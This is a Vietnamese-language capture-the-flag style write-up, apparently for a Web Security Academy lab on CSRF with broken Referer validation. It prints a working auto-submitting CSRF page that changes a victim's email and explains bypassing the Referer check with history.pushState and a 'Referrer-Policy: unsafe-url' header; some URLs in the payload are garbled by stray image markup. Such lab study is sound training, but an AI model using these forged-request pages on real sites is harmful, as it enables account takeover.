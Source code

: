 ![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_present_exploitserver.jpg?raw=true)
![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_present_solve.jpg?raw=true)

### Lab: CSRF with broken Referer validation
Bài lab đã mô tả chức năng thay đổi email của phòng thí nghiệm này dễ bị tấn công bởi CSRF. Nó cố gắng phát hiện và chặn các yêu cầu tên miền chéo, nhưng cơ chế phát hiện có thể bị bỏ qua.

Để giải quyết phòng thí nghiệm, hãy sử dụng máy chủ khai thác của bạn để lưu trữ một trang HTML sử dụng cuộc tấn công CSRF để thay đổi địa chỉ email của người xem.
Chúng ta sẽ bắt request của chức năng để xem cơ chế hoạt động của cơ chế chống CSRF. Khi chúng thay thay đổi Referer của request thì sẽ bị lỗi như sau:

![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_brokenvalidation_request.jpg?raw=true)
Đây chính là phần kiếm tra referer cách để ngăn chặn CSRF được đề cập đến. Tuy nhiên, vẫn có thể giải quyết được cách ngăn chặn này
Tạo payload:

![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_brokenvalidation_engagement.jpg?raw=true)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?![img](https://ac101f611ffe1a9b80a9347f00cf009c.web-security-academy.net')</script>
    <form action="![img](https://ac101f611ffe1a9b80a9347f00cf009c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="datnlq&#64;hacker&#46;de" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```
Sau khi có payload và Store bằng exploit server, tuy nhiên có 1 số trình duyệt sẽ gặp lỗi như sau.
Error: 
![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_brokenvalidation_error.jpg?raw=true)

Điều này là do nhiều trình duyệt hiện nay loại bỏ chuỗi truy vấn khỏi tiêu đề Người giới thiệu theo mặc định như một biện pháp bảo mật. Để ghi đè hành vi này và đảm bảo rằng URL đầy đủ được bao gồm trong yêu cầu, hãy quay lại máy chủ khai thác và thêm tiêu đề sau vào phần "Head":
```
Referrer-Policy: unsafe-url
```
Sau khi thêm vào Header thì chúng ta có thể exploit và solve bài lab .
![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_brokenvalidation_exploit.jpg?raw=true)

![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_brokenvalidation_solve.jpg?raw=true)
